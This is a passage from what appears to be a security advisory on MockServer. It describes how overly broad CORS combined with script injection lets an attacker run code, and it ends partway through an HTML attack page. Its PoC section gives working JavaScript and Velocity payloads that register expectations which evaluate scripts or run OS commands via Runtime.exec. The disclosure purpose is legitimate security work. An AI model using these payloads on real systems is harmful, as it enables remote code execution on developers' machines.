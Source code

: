 <p>Both engines may allow an attacker to execute arbitrary code on-behalf of MockServer.</p>

<h4 id="poc">PoC</h4>
<p>Javascript payload:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>fetch('http://localhost:1080/mockserver/expectation', {
  method: 'PUT',
  body: JSON.stringify({
    "httpRequest": {
      "path": "/pwn/me", "queryStringParameters": {"script": [".*"]}
    },
    "httpResponseTemplate": {
      "template": "return { statusCode: 200, body: String(this.engine.factory.scriptEngine.eval(request.queryStringParameters.script[0])) };",
      "templateType": "JAVASCRIPT"
    }
  })
})
</code></pre></div></div>

<p>Velocity payload:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>fetch('http://localhost:1080/mockserver/expectation', {
  method: 'PUT',
  body: JSON.stringify({
    "httpRequest": {
      "path": "/pwn/me", "queryStringParameters": {"cmd": [".*"]}
    },
    "httpResponseTemplate": {
      "template": "{ \"statusCode\": 200, \"body\": \"$!request.class.forName('java.lang.Runtime').getRuntime().exec($!request.queryStringParameters.cmd[0])\" }",
      "templateType": "VELOCITY"
    }
  })
})
</code></pre></div></div>

<p>Putting the two issues together (Overly broad CORS configuration + Script injection), an attacker could serve the following page so that if a developer running MockServer visits it, they will get compromised:</p>

<div class="language-html highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="nt">&lt;html&gt;</span>
<span class="nt">&lt;head&gt;</span>
  <span class="nt">&lt;script </span><span class="na">type=</span><span class="s">"text/javascript"</span><span class="nt">&gt;</span>
    <span class="p">(</span><span class="kd">function</span><span class="p">()</span> <span class="p">{</span>
      <span class="nx">console</span><span class="p">.</span><span class="nx">log</span><span class="p">(</span><span class="dl">"</span><span class="s2">[+] Creating Expectation</span><span class="dl">"</span><span class="p">)</span>
      <span class="nx">fetch</span><span class="p">(</span><span class="dl">'</span><span class="s1">http://localhost:1080/mockserver/expectation</span><span class="dl">'</span><span class="p">,</span> <span class="p">{</span>
        <span class="na">method</span><span class="p">:</span> <span class="dl">'</span><span class="s1">PUT</span><span class="dl">'</span><span class="p">,</span>
        <span class="na">body</span><span class="p">:</span> <span class="nx">JSON</span><span class="p">.</span><span class="nx">stringify</span><span class="p">({</span>
          <span class="dl">"</span><span class="s2">httpRequest</span><span class="dl">"</span><span class="p">:</span> <span class="p">{</span>
            <span class="dl">"</span><span class="s2">path</span><span class="dl">"</span><span class="p">:</span> <span class="dl">"</span><span class="s2">/pwn/me</span><span class="dl">"</span><span class="p">,</span>